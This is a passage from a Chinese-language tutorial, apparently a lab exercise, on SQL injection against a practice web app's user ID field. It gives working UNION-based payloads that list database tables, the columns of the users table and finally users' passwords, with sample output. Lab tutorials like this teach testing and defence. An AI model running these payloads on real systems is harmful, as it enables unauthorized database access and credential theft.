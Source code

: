 如你所见，数据库中有五个用户。

### 查找数据库表名

现在你知道从用户 ID 输入字段运行 SQL 命令是有效的，你可以使用 SQL 查询来查找更多数据库信息。例如，找出数据库中所有表的名称。*表*就像 Excel 表格一样，它以列和行的形式存储数据。如果你找到了一个表的名称，你可以针对该表进行特定的查询。

要查找表名，请使用以下查询：

```
**sparklekitten' and 1=0 union select null, table_name from information_schema.tables #**
```

这个命令允许我们运行一个 SQL 查询，要求从 `information_schema` 表中选择两个结果：`null` 和 `table_name`。`null` 值不会返回任何内容。我们使用 `null` 是因为我们知道有两个字段（名字和姓氏），因此必须返回两个结果。真正的重点是表名；这个查询会找到 `information_schema` 表中的表名。在 SQL 数据库中，*信息架构*表保存了数据库中所有表的名称，因此我们实际上是要求数据库返回每个表的列表。我们应该会得到一个很长的表名列表，其中大多数是为运行 SQL 数据库而创建的标准表。在以下输出中，只有顶部的两个表名对我们很重要：`guestbook` 和 `users`。

```
ID: sparklekitten' and 1=0 union select null, table_name from information_schema.tables #
First name: 
Surname: guestbook
ID: sparklekitten' and 1=0 union select null, table_name from information_schema.tables #
First name: 
Surname: users
ID: sparklekitten' and 1=0 union select null, table_name from information_schema.tables #
First name: 
Surname: ALL_PLUGINS
Output abridged 
```

因为我们试图查找有关用户的信息，所以我们将重点关注这部分。现在我们知道了用户表的名称，我们可以查询它以获取更多信息。尝试以下查询，看看在继续练习之前是否能找到任何感兴趣的内容：

```
**sparklekitten' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #**
```

这行请求获取 `users` 表中所有列的名称。`concat` 命令要求从名为 `users` 的任何表中获取表名和列名。`0x0a` 语法表示换行，因此表名和列名会分开显示，便于阅读。

当你输入这个查询时，输出应该包含几行，显示表中的列名称。

### 查找密码

在本次练习中，有一列特别值得关注：

```
ID: %' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
First name: 
Surname: users
password
```

这个输出表明存在一个 `password` 列。这看起来很有希望！使用以下查询查看数据库在该字段中存储了什么：

```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```
